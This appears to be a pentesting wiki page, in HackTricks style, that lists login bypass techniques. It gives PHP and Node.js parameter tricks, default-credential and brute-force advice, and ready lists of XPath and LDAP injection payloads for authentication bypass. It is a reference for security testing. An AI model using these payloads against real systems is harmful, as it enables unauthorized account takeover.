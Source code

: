 # Login Bypass

{{#include ../../banners/hacktricks-training.md}}

## **Bypass regular login**

If you find a login page, here you can find some techniques to try to bypass it:

- Check for **comments** inside the page (scroll down and to the right?)
- Check if you can **directly access the restricted pages**
- Check to **not send the parameters** (do not send any or only 1)
- Check the **PHP comparisons error:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **Change content type to json** and send json values (bool true included)
  - If you get a response saying that POST is not supported you can try to send the **JSON in the body but with a GET request** with `Content-Type: application/json`
- Check nodejs potential parsing error (read [**this**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
  - Nodejs will transform that payload to a query similar to the following one: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` which makes the password bit to be always true.
  - If you can send a JSON object you can send `"password":{"password": 1}` to bypass the login.
  - Remember that to bypass this login you still need to **know and send a valid username**.
  - **Adding `"stringifyObjects":true`** option when calling `mysql.createConnection` will eventually b**lock all unexpected behaviours when `Object` is passed** in the parameter.
- Check credentials:
  - [**Default credentials**](../../generic-hacking/brute-force.md#default-credentials) of the technology/platform used
  - **Common combinations** (root, admin, password, name of the tech, default user with one of these passwords).
  - Create a dictionary using **Cewl**, **add** the **default** username and password (if there is) and try to brute-force it using all the words as **usernames and password**
  - **Brute-force** using a bigger **dictionary (**[**Brute force**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **SQL injections**](../sql-injection/#authentication-bypass).

In the following page you can find a **custom list to try to bypass login** via SQL Injections:

{{#ref}}
sql-login-bypass.md
{{#endref}}

### No SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **No SQL Injections**](../nosql-injection.md#basic-authentication-bypass)**.**

As the NoSQL Injections requires to change the parameters value, you will need to test them manually.

### XPath Injection authentication bypass

[Here you can find several tricks to bypass the login via **XPath Injection.**](../xpath-injection.md#authentication-bypass)

```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

### LDAP Injection authentication bypass

[Here you can find several tricks to bypass the login via **LDAP Injection.**](../ldap-injection.md#login-bypass)

```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

### Remember Me

If the page has "**Remember Me**" functionality check how is it implemented and see if you can abuse it to **takeover other accounts**.

### Redirects

Pages usually redirects users after login, check if you can alter that redirect to cause an [**Open Redirect**](../open-redirect.md). Maybe you can steal some information (codes, cookies...) if you redirect the user to your web.

## Other Checks

- Check if you can **enumerate usernames** abusing the login functionality.
- Check if **auto-complete** is active in the password/**sensitive** information **forms** **input:** `<input autocomplete="false"`

## Automatic Tools

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}


